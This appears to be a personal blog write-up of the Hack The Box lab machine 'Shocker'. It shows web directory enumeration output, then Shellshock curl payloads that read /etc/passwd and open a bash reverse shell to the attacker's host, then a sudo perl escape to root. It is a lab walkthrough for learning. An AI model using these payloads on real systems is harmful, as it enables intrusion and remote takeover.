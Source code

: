 ```yaml
---
layout: post
title:  "HTB: Shocker"
date:   2021-03-14 16:00:00 +1100
category: hacking
---
```


## Shocker
Shocker was not technically next in line; Beep was. I have started Beep but I'll return to that later. I didn't know what this was but I guessed from the name.

## Ports
HTTP and SSH on a non-standard port: 2222. 

## HTTP
On the front page of the webserver is a picture of a bug with a hammer and the phrase "don't bug me". I was guessing at this point that this was probably *shellshock*. Which it is. This then, is mostly an exercise in enumeration. 

I've been liking *dirsearch* but on this box it let me down; observe:

{% highlight shell %}
┌──(root💀kali)-[/opt/htb/shocker]
└─# python3 /opt/dirsearch/dirsearch.py -u http://10.10.10.56/cgi-bin -w /usr/share/seclists/Discovery/Web-Content/common.txt -e sh
/opt/dirsearch/thirdparty/requests/__init__.py:91: RequestsDependencyWarning: urllib3 (1.26.2) or chardet (4.0.0) doesn't match a supported version!
  warnings.warn("urllib3 ({}) or chardet ({}) doesn't match a supported "

  _|. _ _  _  _  _ _|_    v0.4.1                                                                                                
 (_||| _) (/_(_|| (_| )                                                                                                         
                                                                                                                                
Extensions: sh | HTTP method: GET | Threads: 30 | Wordlist size: 4681
Error Log: /opt/dirsearch/logs/errors-21-03-14_00-02-19.log
Target: http://10.10.10.56/cgi-bin/                                                                                             
Output File: /opt/dirsearch/reports/10.10.10.56/cgi-bin_21-03-14_00-02-19.txt

[00:02:19] Starting: 
        
Task Completed    
{% endhighlight %}

Nothing found, and it's the same whether I use /cgi-bin/ or /cgi-bin without the trailing slash. What about *gobuster*, which was my old favourite before *dirsearch*?

{% highlight shell %}
┌──(root💀kali)-[/opt/htb/shocker]
└─# gobuster dir  -u http://10.10.10.56/cgi-bin/ -w /usr/share/seclists/Discovery/Web-Content/common.txt -x sh
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.56/cgi-bin/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              sh
[+] Timeout:                 10s
===============================================================
2021/03/14 00:04:30 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 298]
/.htaccess            (Status: 403) [Size: 303]
/.htpasswd            (Status: 403) [Size: 303]
/.hta.sh              (Status: 403) [Size: 301]
/.htaccess.sh         (Status: 403) [Size: 306]
/.htpasswd.sh         (Status: 403) [Size: 306]
/user.sh              (Status: 200) [Size: 118]
                                               
===============================================================
2021/03/14 00:08:20 Finished
===============================================================
{% endhighlight %}

Found it (user.sh) no problem. Very disappointing *dirsearch*. I've heard good things about *feroxbuster* lately; let's try that:

{% highlight shell %}
┌──(root💀kali)-[/opt/htb/shocker]
└─# feroxbuster -u http://10.10.10.56/cgi-bin/ -x sh -w /usr/share/seclists/Discovery/Web-Content/common.txt

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.2.1
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://10.10.10.56/cgi-bin/
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/common.txt
 👌  Status Codes          │ [200, 204, 301, 302, 307, 308, 401, 403, 405]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.2.1
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 💲  Extensions            │ [sh]
 🔃  Recursion Depth       │ 4
 🎉  New Version Available │ https://github.com/epi052/feroxbuster/releases/latest
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Cancel Menu™
──────────────────────────────────────────────────
200        7l       17w        0c http://10.10.10.56/cgi-bin/user.sh
403       11l       32w      303c http://10.10.10.56/cgi-bin/.htaccess
403       11l       32w      306c http://10.10.10.56/cgi-bin/.htaccess.sh
403       11l       32w      298c http://10.10.10.56/cgi-bin/.hta
403       11l       32w      301c http://10.10.10.56/cgi-bin/.hta.sh
403       11l       32w      303c http://10.10.10.56/cgi-bin/.htpasswd
403       11l       32w      306c http://10.10.10.56/cgi-bin/.htpasswd.sh
[####################] - 46s     9362/9362    0s      found:7       errors:0      
[####################] - 46s     9362/9362    202/s   http://10.10.10.56/cgi-bin/
{% endhighlight %}                                                                                         
Not only did it find it, but it was noticeably quicker than gobuster. A new king has been crowned.

## Exploitation
Is trivial:

``
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'" \
http://10.10.10.56/cgi-bin/user.sh
``

To show it's working, and then a shell via:

``
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'bash -i >& /dev/tcp/10.10.14.10/1234 0>&1'" \
http://10.10.10.56/cgi-bin/user.sh
``

## Root
GTFOBins from HTB? They don't do that anymore:

{% highlight shell %}
──(root💀kali)-[/opt/htb/shocker]
└─# nc -nvlp 1234                     
listening on [any] 1234 ...
connect to [10.10.14.10] from (UNKNOWN) [10.10.10.56] 37280
bash: no job control in this shell
shelly@Shocker:/usr/lib/cgi-bin$ whoami
whoami
shelly
shelly@Shocker:/home/shelly$ sudo -l
sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
shelly@Shocker:/home/shelly$ sudo -u root /usr/bin/perl -e 'exec "/bin/sh";'
sudo -u root /usr/bin/perl -e 'exec "/bin/sh";'
cd /root
cat root.txt
# flag goes here
id;hostname
uid=0(root) gid=0(root) groups=0(root)
Shocker
{% endhighlight %}

I also did h4cked and Badbyte from THM yesterday but I don't have anything to say about them. Proxychains nmap was mildly interesting.
